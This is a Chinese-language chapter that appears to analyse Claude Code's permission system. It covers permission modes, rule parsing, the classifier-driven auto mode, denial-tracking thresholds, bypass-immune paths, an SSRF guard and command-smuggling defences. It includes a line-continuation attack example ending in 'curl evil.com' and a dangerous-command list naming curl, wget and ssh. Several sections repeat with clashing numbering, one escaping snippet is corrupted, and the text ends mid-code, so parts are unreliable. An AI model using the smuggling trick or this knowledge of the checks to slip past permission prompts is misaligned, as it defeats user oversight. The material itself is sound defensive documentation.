



# 第 9 章：权限系统

Claude Code 的权限系统不是一个"弹窗确认"，而是一个**模式 × 规则 × 分类器**的三层策略引擎。6 个规则来源、3 种行为类型、多层分类器，贯穿从 CLI 参数到运行时会话的全生命周期。每一次工具执行前，权限判定管线都要完成从抽象规则语法到具体 allow/deny/ask 的完整评估链。

---

## 9.1 权限判定的三层架构



### 为什么是三层而不是一个 yes/no

源码里权限系统分为三层独立建模的维度：

1. **Permission Mode**——决定系统遇到危险操作时的默认行为倾向（放行、拒绝、询问、自动分类）
2. **Permission Rules**——具体的 allow/deny/ask 字符串规则，细化到工具内容级别
3. **Permission Request/Response**——交互链路，处理需要确认的 pending call

这意味着权限控制不是简单的 yes/no，而是一个完整策略系统。执行器不会绕过权限系统直接运行——权限判定先发生，工具执行后发生。

---

## 9.2 权限模式驱动

权限模式是系统级行为配置，决定默认遇到危险操作时的处理倾向：

| 模式 | 行为 | 使用场景 |
|------|------|---------|
| `default` | 每个写操作需要确认 | 默认交互模式 |
| `bypassPermissions` | 所有操作自动允许 | CI/CD、信任环境 |
| `acceptEdits` | 自动接受文件编辑 | 开发者工作流 |
| `plan` | 限制执行能力 | 只读规划模式 |
| `auto` | 分类器自动判定 | 实验性模式 |
| `dontAsk` | 自动通过（内部） | 内部使用 |

### bypassPermissions Kill Switch

```typescript
// bypassPermissionsKillswitch.ts
if (isInProtectedNamespace(process.cwd())) {
  permissionMode = 'default'  // 强制回默认模式
}
```

在受保护命名空间（如系统关键目录）中，即使用户启用了 `bypassPermissions`，权限模式也会被强制回 `default`。这是安全兜底策略——防止用户在危险目录中误关闭权限确认。

### 模式元数据系统

每个模式有独立的元数据定义：

```typescript
interface PermissionModeMeta {
  title: string        // 用户可见名称
  symbol: string       // UI 图标
  color: string        // 终端颜色编码
  external: boolean    // 是否对外暴露
}
```

元数据不仅用于展示，还被 UI、遥测、权限提示等系统读取。

---

## 9.3 规则来源的六层优先级

权限规则来自 6 个不同来源，按优先级从高到低评估：

```typescript
// permissions.ts:109-114
const PERMISSION_RULE_SOURCES = [
  ...SETTING_SOURCES,     // 用户设置、管理员设置、策略设置等
  'cliArg',               // 命令行参数（--allowedTools）
  'command',              // 命令注册时声明
  'session',              // 会话级别（运行时添加）
]
```

每个来源可以独立注册 allow/deny/ask 规则。高优先级来源覆盖低优先级。例如 CLI 参数的 `--allowedTools`（cliArg 来源）可以覆盖用户设置中的 deny 规则（如果管理员策略不阻止的话）。

### 规则语法解析

```
Bash                        → 工具级规则（所有 Bash 命令）
Bash(npm install)           → 内容级规则（只有 npm install）
Bash(git push:*)            → 前缀规则（git push: 开头的所有命令）
mcp__server1                → MCP 服务器级规则
mcp__server1__write_file    → MCP 工具级规则
```

解析器处理括号内的转义字符，顺序很重要：

```typescript
// permissionRuleParser.ts:55-79
export function escapeRuleContent(content: string): string {
  return content
    .replace(/\\/g, '\\\\')  // 先转义反斜杠
    .replace(/\(/g, '\\(')   // 再转义括号
    .replace(/\)/g, '\\)')
}
```

**反斜杠必须先转义**——如果先转义括号，`\(` 会被处理为 `\\(`，后续再处理反斜杠时变成 `\\\(`，引入额外的反斜杠。这是转义顺序的经典陷阱。

---

## 9.4 canUseTool 决策管线

`canUseTool()` 是权限判定的核心函数。它执行三步评估：



### 1. 工具级检查

首先检查整个工具是否在 deny 列表中。如果 `Bash` 被 deny，所有内容级 allow 规则都不会匹配——工具级 deny 优先于内容级 allow。

### 2. 内容级检查

如果工具级不匹配降级到内容级。`Bash(npm install)` 只匹配 `npm install` 命令，`Bash(git push:*)` 匹配所有以 `git push:` 开头的命令。

### 3. 分类器检查

如果前两层都没有结论且分类器活跃，分类器接管判断。分类器使用模型分析命令意图，返回 flag 表示是否需要人工确认。

### fallback 降级路径

```typescript
// permissions.ts（简化）
function toolMatchesRule(rule, toolName, toolInput) {
  if (rule.toolName === toolName) {
    // 内容级匹配
    if (rule.content) {
      return matchesContent(rule.content, toolInput)
    }
    // 工具级匹配（无 content）
    return true
  }
  return false
}
```

fallback 路径确保规则即使内容部分不匹配，工具级匹配仍然生效。

---

## 9.5 权限请求/响应交互链路

当判定为 `ask` 时，工具调用进入 pending 状态：



### tool_use_id 作为链路主键

pending 调用表以 `tool_use_id` 为键。这个 ID 在工具调用发起时生成，贯穿权限请求、响应、结果回写的完整路。

```typescript
// 发起工具调用时生成
const callId = crypto.randomUUID()
// 权限请求时用它回溯 pending call
// 返回 tool_result 时用它对上原始调用
```

### 权限请求的挂起与恢复

当工具需要权限时，主循环不会阻塞——它将 `tool_use` block 保留在消息中，等待 `permission_response`。收到响应后：
- approve：继续执行工具
- deny：返回拒绝结果，模型收到错误信息

---

## 9.6 Denial Tracking 与学习反馈

```typescript
// denialTracking.ts
interface DenialState {
  toolName: string
  content: string
  consecutiveDenials: number
  maxFailures: number
  windowMs: number
}
```

当模型反复尝试同一被拒命令时，denial tracker 记录连续失败次数。达到上限后，系统注入一条消息告诉模型"你需要请求用户的许可"，而不是继续重试。这是防止无限重试循环的机制。

### denial 追踪的窗口期

```typescript
function shouldFallbackToPrompting(state: DenialTrackingState): boolean {
  const recent = state.denials.filter(d =>
    d.toolName === state.currentTool &&
    d.timestamp > Date.now() - state.windowMs
  )
  return recent.length >= state.maxFailures
}
```

**为什么需要窗口期**——如果不设窗口一次历史上的拒绝会永久影响后续决策。窗口期确保只有近期的连续拒绝才触发 fallback。

---

## 9.7 MCP 权限的双重门控

MCP 工具需要双重权限验证：

1. **服务器级**——是否允许连接此 MCP 服务器？（channel allowlist gate）
2. **具级**——是否允许调用此工具？（常规 permission rules）

```typescript
// MCP 工具的权限覆盖
{
  isMcp: true,
  checkPermissions: () => 'passthrough', // 服务器级控制
}
```

MCP 工具的 `checkPermissions` 返回 `'passthrough'`，表示权限由 MCP 服务器自身控制，不经过 Claude Code 的常规权限引擎。但服务器级连接仍受 channel allowlist 门控——只有允许连接的服务器，其工具才可能被调用。

---

## 9.8 权限系统的遥测集成

每次权限判定都会记录决策遥测：

```typescript
interface ToolDecisionTelemetry {
  toolName: string
  decision: 'allowed' | 'denied' | 'asked'
  source: PermissionRuleSource
  duration: number
  turnCount: number
}
```

这些数据通过 OpenTelemetry 导出，支持安全审计、使用分析和性能诊断。

---

## 9.4 权限规则字符串解析

`permissionRuleParser.ts` 实现了从文本规则到内部数据结构的转换：

```
Bash                        → 工具级规则（所有 Bash 命令）
Bash(npm install)           → 内容级规则（只有 npm install）
Bash(git push:*)            → 前缀规则（以 git push: 开头的所有命令）
mcp__server1                → MCP 服务器级规则
mcp__server1__write_file    → MCP 工具级规则
```

### 转义处理

```typescript
// permissionRuleParser.ts:55-79
export function escapeRuleContent(content: string): string {
  return content
    .replace(/\/g, '\\')  // 先转义反斜杠
    .replace(/\(/g, '\(')   // 再转义括号
    .replace(/\)/g, '\)')
}
```

**为什么反斜杠先转义**——如果先转义括号，`\(` 会被处理为 `\(`，后续再处理反斜杠时会变成 `\\(`，引入额外的反斜杠。

### 规则优先级

规则按来源优先级依次评估。`canUseTool()` 执行 3 层判断：工具级 → 内容级 → 分类器。如果需要用户确认，`tool_use` 被挂起待审批。

---

## 9.5 Denial Tracking：防止无限重试循环

```typescript
// denialTracking.ts
const DENIAL_LIMITS = { maxFailures: number, windowMs: number }

function shouldFallbackToPrompting(state: DenialTrackingState): boolean {
  // 当同一命令的失败率达到阈值，切换为提示模式
  // 防止同一命令反复被拒的无限循环
}
```

当模型反复尝试同一被拒命令时，denial tracker 记录连续失败次数。达到上限后，系统注入一条消息告诉模型"你需要请求用户的许可"，而不是继续重试。

**这是一个防死循环机制**——如果模型持续尝试被拒绝的命令（如试图 `rm -rf /`），denial tracker 在 N 次拒绝后切换策略，不再让模型重试，而是提示"请请求许可"。

---

## 9.6 Permission Modes 的行为矩阵

```typescript
// types/permissions.ts:16-38
const EXTERNAL_PERMISSION_MODES = [
  'acceptEdits',       // 自动接受 CWD 内文件编辑
  'bypassPermissions', // 跳过所有权限提示（完全自主）
  'default',           // 正常模式（请求不在允许/拒绝列表中工具的权限）
  'dontAsk',           // 不询问——自动拒绝任何需要批准的
  'plan',              // 计划模式——模型只制定计划，用户批准执行
]

// auto 模式：仅 Ant 内部，在 feature('TRANSCRIPT_CLASSIFIER') 后
const INTERNAL_PERMISSION_MODES = [...EXTERNAL, 'auto', 'bubble']
```

**Mode 行为矩阵**：

| 操作 | default | acceptEdits | bypass | dontAsk | plan | auto |
|------|---------|-------------|--------|---------|------|------|
| 安全工具（Read/Grep） | allow | allow | allow | allow | allow | allow |
| CWD 内编辑 | ask | allow | allow | deny | ask | 分类器 |
| Shell 命令 | ask | ask | allow | deny | ask | 分类器 |
| 破坏性操作 | ask | ask | allow* | deny | ask | 分类器 |
| 非 CWD 文件 | ask | ask | allow | deny | ask | 分类器 |
| 用户交互 | ask | ask | allow | deny | ask | allow |

*dontAsk 模式下，`'ask'` 被转换为 `'deny'`。
*bash 安全检验即使在 `bypass` 下也必须通过——`.git/`、`.claude/`、`.vscode/`、shell 配置是 bypass-immune。

### permissionModeFromString 的映射

```typescript
// PermissionMode.ts:117-121
export function permissionModeFromString(str: string): PermissionMode {
  return (PERMISSION_MODES as readonly string[]).includes(str)
    ? (str as PermissionMode)
    : 'default'
}
```

如果字符串不匹配任何模式，回退到 `'default'`。这是一个 fail-safe 默认——未知的模式字符串不会导致崩溃，只是退回到最保守的行为。

### CLI 模式的废弃别名

| 废弃选项 | 替换 | 隐藏 |
|---------|------|------|
| `--delegate-permissions` | `--permission-mode auto` | `hideHelp()` |
| `--dangerously-skip-permissions-with-classifiers` | `--permission-mode auto` | `hideHelp()` |
| `--afk` | `--permission-mode auto` | `hideHelp()` |

使用 Commander 的 `.implies()` 自动映射到 `permissionMode: 'auto'`，同时用 `.hideHelp()` 防止外部用户看到这些内部选项。

---

## 9.7 canUseTool() 的三层权限管道

`hasPermissionsToUseTool` 是整个权限检查的主入口点。它调用 `hasPermissionsToUseToolInner`（三层）然后应用后处理：

### Layer 1：Tool-Level 规则检查（顺序执行）

```
Step 1a: 工具被全局拒绝？ → 'deny'
Step 1b: 工具有 "always ask" 规则？ → 'ask'
Step 1c: tool.checkPermissions(input, context)  // 工具自己的检查
Step 1d: 工具实现返回了 'deny'？ → 'deny'  
Step 1e: 工具需要用户交互且结果为 'ask'？ → 'ask'
Step 1f: 内容特定的 ask 规则？ → 'ask'（即使 bypass 模式也生效）
Step 1g: 安全检查（.git/、.claude/、.vscode/） → 必须提示
Step 2a: 模式允许 bypass？ → 'allow'
Step 2b: 工具在 always-allow 规则中？ → 'allow'
Step 3: 将 passthrough 转为 'ask'（默认回退）
```

**Step 1g 的 bypass-immunity**——某些路径即使在 `bypassPermissions` 模式下也必须提示：
- `.git/` 目录操作（可能损坏仓库历史）
- `.claude/` 目录操作（Claude Code 的系统数据）
- `.vscode/` 目录操作（编辑器配置）
- Shell 配置文件（`.bashrc`、`.zshrc`、`.profile`）

这是安全底线——���使是完全自主模式，某些操作也值得确认。

### Layer 2：Mode-Based 转换

```typescript
// 如果 Layer 1 返回 'allow'：
resetConsecutiveDenials()  // 重置拒绝计数

// 如果 Layer 1 返回 'ask'：
if mode === 'dontAsk':
  return 'deny'  // 将 'ask' 转为 'deny'
if mode === 'auto':
  enter classifier pipeline (Layer 3)
```

### Layer 3：Auto Mode 分类器管道

```
3a: acceptEdits 快速路径
    → 用 mode='acceptEdits' 重新运行 tool.checkPermissions
    → 如果 allow → 跳过分类器，直接 allow

3b: 安全工具白名单
    → SAFE_YOLO_ALLOWLISTED_TOOLS（只读工具如 FileRead、Grep、Glob、LSP、TodoWrite、Task* 等）
    → 在白名单中 → allow

3c: 完整分类器调用
    → classifyYoloAction()
      → 构建会话历史 transcript
      → 调用 AI 模型（单独 API 调用）判定是否阻止
      → shouldBlock=true → 记录拒绝 → 'deny'
      → shouldBlock=false → 'allow'
```

**为何 3a 先于 3c**——3a 检查 `acceptEdits` 模式下的 `tool.checkPermissions`。如果 CWD 中的文件编辑在 acceptEdits 下被 allow，那么不需要昂贵的分类器 API 调用（单独 API 调用消耗 token 并增加延迟）。这是一个缓存优化——常见操作走快速路径，罕见操作走分类器。

---

## 9.8 权限规则的数据结构

```typescript
// types/permissions.ts:48-79
type PermissionRuleSource =
  | 'userSettings'      // ~/.claude/settings.json
  | 'projectSettings'   // ./.claude/settings.json
  | 'localSettings'     // 每目录
  | 'flagSettings'      // feature flags
  | 'policySettings'    // 组织策略
  | 'cliArg'            // CLI 参数
  | 'command'           // slash commands
  | 'session'           // 内存中，仅会话级

type PermissionRuleValue = {
  toolName: string       // 如 "Bash" 或 "mcp__server__tool"
  ruleContent?: string   // 可选: 如 "npm publish:*"
}

type PermissionRule = {
  source: PermissionRuleSource
  ruleBehavior: 'allow' | 'deny' | 'ask'
  ruleValue: PermissionRuleValue
}
```

规则以 `string[]` 的形式按来源存储在三个桶中（`alwaysAllowRules`、`alwaysDenyRules`、`alwaysAskRules`），每个字符串的格式如 `"Bash"` 或 `"Bash(npm publish:*)"`。

### 规则匹配

```typescript
// toolMatchesRule() - permissions.ts:238-269
// 匹配逻辑:
// 规则必须没有 ruleContent 才能匹配整个工具
// MCP 工具使用完全限定名 (mcp__server__tool)
// 支持服务器级通配符：规则 "mcp__server1" 匹配 "mcp__server1__tool1"
// "mcp__server1__*" 匹配该服务器的所有工具
```

---

## 9.9 拒绝追踪：自动模式的断路器

```typescript
// denialTracking.ts
type DenialTrackingState = {
  consecutiveDenials: number  // 连续拒绝次数
  totalDenials: number        // 总拒绝次数
}

const DENIAL_LIMITS = {
  maxConsecutive: 3,   // 连续 3 次拒绝触发回退
  maxTotal: 20,        // 累计 20 次拒绝触发回退
}
```

### 拒绝计数行为

| 操作 | consecutiveDenials | totalDenials |
|------|-------------------|-------------|
| `recordDenial()` | +1 | +1 |
| `recordSuccess()` | 重置为 0 | 不变 |

### 何时触发回退

`shouldFallbackToPrompting()` 在以下条件返回 `true`：
- `consecutiveDenials >= 3` OR
- `totalDenials >= 20`

**达到总限制时**（20 次拒绝）——重置 counters 到 0。这是一个"宽容重置"——分类器已经学习了大量拒绝，但可能是过拟合。重置让它重新开始。

**headless 模式**——抛出 `AbortError` 而非回退到提示。在无 TTY 环境下，提示是不可行的，所以直接中止会话。

**正常模式**——向用户展示警告消息，包括拒绝次数和最近被阻止的操作，然后回退到提示用户。

### BashTool 权限检查链

`bashToolHasPermission()` 是 BashTool 的权限检查实现：

```
1. 沙箱 + 自动允许：如果启用沙箱且命令应使用沙箱 → checkSandboxAutoAllow
2. 复合命令分割：splitCommand_DEPRECATED() 分割命令为子命令
3. 对每个子命令:
   3a. 完全匹配 (bashToolCheckExactMatchPermission)
       → 检查是否完全匹配允许/拒绝/提示规则
   3b. 前缀匹配 (bashToolCheckPermission)
       → 检查拒绝规则（精确 + 前缀匹配）
       → 检查提示规则
       → 验证路径约束（工作目录校验）
       → 检查允许规则
       → 模式特定处理（acceptEdits 模式自动允许 mkdir/touch/rm/sed）
       → 检查只读命令
   3c. 安全检查 (bashCommandIsSafeAsync)
       → 旧安全检查命令注入模式（AST 解析成功时跳过）
   3d. 返回前缀建议（保存规则用）
4. 聚合结果：
   - 任何子命令被拒绝 → 'deny'
   - 全部允许 → 'allow'
   - 任何需要批准 → 'ask' 附带 subcommandResults
   - bash 分类器处理允许/拒绝行为
```

---

## 9.10 Auto Mode 的断路器

Auto mode 有一个简单的断路器机制来防止不可恢复的拒绝循环：

```typescript
// autoModeState.ts
let autoModeActive = false         // auto mode 当前是否激活
let autoModeFlagCli = false        // 是否通过 CLI 请求
let autoModeCircuitBroken = false  // 断路器是否触发
```

**验证断路器访问**：
```
1. 从 GrowthBook 读取 tengu_auto_mode_config（异步 getDynamicConfig）
2. 解析 enabled 状态
3. 检查本地设置的 disableAutoMode
4. setAutoModeCircuitBroken(enabled === 'disabled' || disabledBySettings)
5. 检查模型支持：modelSupportsAutoMode(mainModel)
6. 检查计划层（订阅级别）是否支持 auto mode
```

**断路器条件**：
- GrowthBook 返回 `enabled === 'disabled'`
- 本地设置 `disableAutoMode === true`
- 模型不支持 auto mode
- `disableFastMode` 断路器触发
- 计划层不支持

**canCycleToAuto**：Shift+Tab 轮询检查两个条件：
- `isAutoModeAvailable`（启动时缓存）
- `isAutoModeGateEnabled()`（实时断路器状态）

这是双重检查——防止断路器在会话中触发后，Shift+Tab 仍然进入 auto mode。

---

## 9.15 Auto Mode：`auto` 内部模式

除了 5 个外部模式外，系统有一个内部模式（仅 Ant 内部使用）：

| Mode | 条件 |
|------|------|
| `auto` | 仅当 `feature('TRANSCRIPT_CLASSIFIER')` 启用 |

`bubble` 也在内部模式中存在（`InternalPermissionMode = ExternalPermissionMode | 'auto' | 'bubble'`）。

**外部映射**——`auto` 对外部 API 映射为 `'default'`。这意味着外部系统不知道内部 auto 模式的存在。

**Shift+Tab 循环**——`canCycleToAuto()` 检查缓存的启动可用性**和**实时门——防止中途断路器绕过。

---

## 9.16 规则语法和解析

`permissionRuleParser.ts` 中的规则语法：

**格式**：`ToolName`（工具级）或 `ToolName(content)`（内容特定）：
```
Bash          # 所有 Bash 操作
Bash(ls: *)   # Bash 中以 ls 开头的命令
Bash(git:status)  # Bash 中包含 git status 的命令
```

**转义**——反斜线优先，然后括号：`escapeRuleContent()` 中 `unistripUnescapedChar` / `findLastUnescapedChar` 计算前面的反斜线数量来确定字符是否被转义。

**遗留工具名别名**——`Task` -> `Agent`、`KillShell` -> `TASK_STOP_TOOL_NAME` 等。

**Shell 规则匹配**——三种规则类型：`exact`、`prefix`（遗留 `:*` 语法如 `npm:*`）、`wildcard`（带 `*` 的模式）：
- `matchWildcardPattern()` 转换模式为正确转义的正则
- 特殊大小写：单个尾部 `* ` 使命令参数可选（`git * ` 匹配裸 `git`）
- 使用 null 字节哨兵（`ESCAPED_STAR`）进行正则转义

---

## 9.17 危险模式与路径验证

**危险 Bash 模式**（`dangerousPatterns.ts`）：

| 模式族 | 示例 |
|--------|------|
| `CROSS_PLATFORM_CODE_EXEC` | python、node、deno、npx、npm run、bash、sh、ssh |
| Ant 专用 | `fa run`、`coo`（集群启动器）、`gh`、`gh api`、`curl`、`wget`、`kubectl`、`aws`、`gcloud` |

这些馈送到 `isDangerous{Bash,PowerShell}Permission()` 谓词，在 auto-mode 入口剥离过于宽泛的前缀规则。

**路径验证**（`pathValidation.ts`）——`validatePath()` 处理：
- Tilde 扩展（`~` → home 目录）
- Glob 验证
- Shell 扩展阻断（`$`、`%`、`=`）
- UNC 路径

**`isPathAllowed()`** 5 步链：
1. 拒绝规则
2. 内部可编辑路径
3. 安全检查（`.git/`、`.claude/`、`.vscode/`、shell 配置）——这些是 bypass-immune
4. 工作目录
5. 允许规则

**危险移除路径**——`isDangerousRemovalPath()` 阻止 `* `、`/*`、`/`、`~`、根目录子项、Windows 驱动器根目录/子项。

---

## 9.18 权限提示流

**请求/响应流**——当管线返回 `'ask'` 时：
1. 保留消息中的 tool_use（尚未执行）
2. 发送 `permission_request` 到 UI，以 `tool_use_id` 为键
3. 用户通过 UI 响应（批准/拒绝）
4. 响应通过 `tool_use_id` 映射回来
5. 如批准：工具执行器运行。如拒绝：tool_result 包含拒绝

**Pending Classifier Check**（异步自动批准）——`PermissionAskDecision` 可包含 `pendingClassifierCheck`（`{command, cwd, descriptions[]}`）。这触发异步分类器运行，可在用户响应前自动批准，减少提示延迟。

**权限更新**——`PermissionUpdate` 类型支持 6 种操作：
| 操作 | 用途 |
|------|------|
| `addRules` | 向 allow/deny/ask 规则追加 |
| `replaceRules` | 完全替换规则 |
| `removeRules` | 移除特定规则 |
| `setMode` | 改变权限模式 |
| `addDirectories` | 添加工作目录权限 |
| `removeDirectories` | 移除工作目录权限 |

目标：`userSettings`、`projectSettings`、`localSettings`、`session`、`cliArg`

---

## 9.19 Permission Explainer

**Permission Explainer**——`permissionExplainer.ts` 中的可选特性：为权限提示调用侧面查询模型生成风险级别解释（LOW/MEDIUM/HIGH）。

这是一个额外的 API 调用，为每个权限请求生成人类可读的风险评估——帮助用户理解为什么 Claude 正在请求权限。

---

## 9.20 阴影规则检测

`shadowedRuleDetection.ts` 检测不可达的允许规则：

**deny-shadowed**——工具级 deny 规则阻止特定的 allow 规则（`Bash` 在 deny 中 + `Bash(ls:* )` 在 allow 中——`ls` 规则永远无法到达）

**ask-shadowed**——工具级 ask 规则使特定的 allow 规则不可达（`Bash` 在 ask 中 + `Bash(ls:* )` 在 allow 中——ask 在 allow 之前被管线处理）

**沙箱例外**——Bash 工具级 ask 规则来自个人设置在沙箱 auto-allow 启用时不产生阴影。

---

## 9.21 Headless/后台 Agent 处理

当 `shouldAvoidPermissionPrompts` 为真时（如在异步 agent 中）：
1. 首先运行 `PermissionRequest` hooks 进行编程允许/拒绝
2. 如果无 hook 决策：自动拒绝，原因 "Permission prompts are not available in this context"

这防止 headless agent 因需要提示而永远挂起。

---

---

## 9.22 Shell 命令 AST 解析与续行合并

`bash/commands.ts`（85-248 行）的 `splitCommandWithOperators()` 实现了复杂的 shell 命令 AST 解析器，防御一类**续行合并攻击**：

```typescript
// 奇偶反斜杠计数
const commandWithContinuationsJoined = processedCommand.replace(
  /\+
/g,
  match => {
    const backslashCount = match.length - 1
    if (backslashCount % 2 === 1) {
      return '\\'.repeat(backslashCount - 1)  // 合并
    } else {
      return match  // 保留原样（命令分隔符）
    }
  },
)
```

**攻击向量**——`echo "$\<newline>{}" ; curl evil.com` 视觉上 `$` 和 `{}` 在两行，但 bash 执行为 `echo "${}" ; curl evil.com`。权限系统若不做续行合并，看到的是无害的 `echo ...`，实际运行的却是 `curl`。修复方案同时保留合并版本（供 AST 解析器使用）和原始版本（供回退路径使用）。

**随机盐占位符**（20-36 行）——使用 `randomBytes(8)` 生成盐值而非静态字符串：`__SINGLE_QUOTE_{salt}__`。防止恶意命令中嵌入字面占位符字符串导致的注入攻击。

---

## 9.23 HTTP Hook 的 SSRF 守卫（DNS 级私有地址阻断）

`hooks/ssrfGuard.ts`（295 行）——网络层权限守卫，不在章节已有覆盖范围内。配置的 HTTP hooks 可能意外命中云元数据终端节点。守卫在 DNS 解析级别运行，替换 `axios.lookup`：

```typescript
export function ssrfGuardedLookup(hostname, options, callback) {
  // IP 字面量直接验证
  const ipVersion = isIP(hostname)
  if (ipVersion !== 0) {
    if (isBlockedAddress(hostname)) {
      callback(ssrfError(hostname, hostname), '')
      return
    }
  }
  // DNS 结果逐地址检查
  dnsLookup(hostname, { all: true }, (err, addresses) => {
    for (const { address } of addresses) {
      if (isBlockedAddress(address)) {
        callback(ssrfError(hostname, address), '')
        return  // 首个坏地址即拒绝
      }
    }
  })
}
```

**阻断地址范围**：`10.0.0.0/8`、`172.16.0.0/12`、`192.168.0.0/16`（私有）、`169.254.0.0/16`（链路本地/云元数据）、`100.64.0.0/10`（CGNAT——明确阻断阿里云元数据 `100.100.100.200`）、`fc00::/7`、`fe80::/10`（IPv6 私有）。

**关键权衡**：`127.0.0.0/8` 和 `::1`（本地回环）**明确放行**——本地开发策略服务器是主要用例。

**IPv6 映射 IPv4 提取**（187-203 行）——防止 `::ffff:a9fe:a9fe`（=`169.254.169.254` 十六进制）绕简单字符串 IPv4 检查。

---

## 9.24 影子规则检测的 Sandbox 例外

`shadowedRuleDetection.ts`（235 行）——沙盒自动允许的例外情况：

```typescript
function isAllowRuleShadowedByAskRule(allowRule, askRules, options) {
  const shadowingAskRule = askRules.find(askRule =>
    askRule.ruleValue.toolName === toolName &&
    askRule.ruleValue.ruleContent === undefined
  )
  if (toolName === 'Bash' && options.sandboxAutoAllowEnabled) {
    if (!isSharedSettingSource(shadowingAskRule.source)) {
      return { shadowed: false }  // 个人设置不标记影子
    }
  }
}
```

**关键洞察**：如果 ask 规则来自**共享**来源（projectSettings、policySettings、command），即使启用了沙盒仍然标记影子。因为团队其他成员可能没有启用沙盒，ask 规则对他们仍然生效。

判别联合保证类型安全：`{ shadowed: false } | { shadowed: true; shadowedBy; shadowType }`。

---

## 9.25 权限解释器的对话上下文抽取

`permissionExplainer.ts`（251 行）——对话上下文提取机制：

```typescript
function extractConversationContext(messages: Message[], maxChars = 1000): string {
  const assistantMessages = messages
    .filter((m): m is AssistantMessage => m.type === 'assistant')
    .slice(-3)  // 最后 3 条助消息
  // 反向遍历，用 unshift 保持顺序
  for (const msg of assistantMessages.reverse()) {
    // 截取到 maxChars 剩余空间
  }
}
```

解释器构造强制工具使用调用，自定义命令 schema（`explain_command`）含字段：`explanation`、`reasoning`、`risk`、`riskLevel`。结构化输出通过 lazy Zod schema 验证。使用 `getMainLoopModel()` 而非固定模型，自适应当前运行模型。

---

## 9.26 分类器故障关闭/开放的 GrowthBook 门控

`permissions.ts`（845-876 行）——自动模式分类器故障时的**铁门**机制：

```typescript
if (
